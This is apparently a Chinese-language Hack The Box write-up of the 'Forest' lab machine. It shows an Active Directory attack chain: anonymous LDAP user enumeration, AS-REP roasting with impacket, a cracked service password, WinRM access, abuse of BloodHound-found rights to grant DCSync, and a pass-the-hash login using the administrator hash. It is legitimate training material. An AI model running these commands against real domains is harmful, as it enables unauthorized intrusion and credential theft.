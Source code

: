 +++
ShowToc = true
TocOpen = true
title = '0X013 Forest'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE93fdbc1cf8437edf1e751023e9ed1e2bimage.png)

![](/htb_img/WEBRESOURCE1e68350840d2018df4ed107ffb3f6c08image.png)

![](/htb_img/WEBRESOURCE033784e1aad5bf646aee9b3abd881f80image.png)

# 获取立足点

smb无法利用，但是ldap存在匿名访问：

![](/htb_img/WEBRESOURCEc2050611b4266ff071f8d900185cfb69image.png)

查询所有用户：

ldapsearch -x -H ldap://10.10.10.161:389 -u '' -w '' -b "DC=htb,DC=local" "(&(objectCategory=person)(objectClass=user))" |grep dn

![](/htb_img/WEBRESOURCEfe4307047ea47ceafd2b1efe1def47d1image.png)

经过一段处理：

把用户名提取出来：

![](/htb_img/WEBRESOURCE64f411aa6c41500447fed65e433ecdc4image.png)

拿到所有的用户名，几个想法：1、密码喷洒；2、AS-REP Roasting

用impacket工具包的GetNPUsers.py进行爆破，尝试获取hash

python ../impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 -usersfile username.txt -format john htb.local/

发现可用：

![](/htb_img/WEBRESOURCEca0d1df87d377c387427b0c959ac35b2image.png)

破解hash:

s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)

![](/htb_img/WEBRESOURCE8320a03326f3360b22481ebb4298c5b3image.png)

5985开启，可用通过winrm getshell:

![](/htb_img/WEBRESOURCEb8bd0e5f6b4ae711c2d344b99403dcacimage.png)

![](/htb_img/WEBRESOURCE43c068ea933f27d2853b15eddedeec1dimage.png)

# 提权

使用bloodhunnd:

![](/htb_img/WEBRESOURCEb54eddfd1c767692663810ea6b449e24image.png)

发现两条路径：

第一条是，CanPSRemote，通过登录来获取域管理员权限，但是前提是使用本地提权，然后DCSYNC，但是这条路不完全有效，后面看了一下，似乎不让读取系统信息，也就不要太好本地提权了：

![](/htb_img/WEBRESOURCE50639070763fb043c8fb3a628461dedfimage.png)

第二条是通过EXCHANGE WINDOWS PERMISSIONS@HTB.LOCALL这个组有完全控制权：bloodhound给的建议是给用户添加dcsync权限：

![](/htb_img/WEBRESOURCEb406f0a27830d6d156e8a207be4c40bfimage.png)

那么如何进入EXCHANGE WINDOWS PERMISSIONS@HTB.LOCALL组呢：

bloodhound告诉我们，SVC-ALFRESCO@HTB.LOCAL是可以通过添加账户来进入这个组的：

![](/htb_img/WEBRESOURCE792ebfdef5747d1d81ae5c24a92e0c70image.png)

![](/htb_img/WEBRESOURCE495dc5f8a8937ad595fbf4d6a65411d0image.png)

也就是说，我们可以赋予一个用户dcsync权限：

先使用SVC-ALFRESCO@HTB.LOCAL创建一个属于EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL组的用户：

![](/htb_img/WEBRESOURCE351f2b652dd56d12e721cf4940138cf2image.png)

赋予dcsync权限：

![](/htb_img/WEBRESOURCEc42f7017986b2e09894f010ae1c8c3fdimage.png)

不知道哪里有问题，secretsdump失败了，使用powershell脚本试试：

![](/htb_img/WEBRESOURCE370215061601254ca9e6e14ea4a5d1dfimage.png)

看来是权限没给上，再研究一下：

![](/htb_img/WEBRESOURCE45ae99d0685f7c8396171b6cfe27b8e3image.png)

给上了，这次导出hash成功了：

![](/htb_img/WEBRESOURCE1c34d374b8a9346efc38c2fdffe04374image.png)

hash登录：

wmiexec.py administrator@10.10.10.161 -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'

![](/htb_img/WEBRESOURCEbce8a514dc22193001326a4d636af659image.png)

a3c166fcef465897b552ea3f9d2c1eba

![](/htb_img/WEBRESOURCEd7ed52f53b34b26b7d7490ccd694531cimage.png)

# 总结

## 这个靶场的核心是使用bloodhound，对**bloodhound的使用和理解有一定要求，如果有域内扎实权限基础的话，会更好打一些**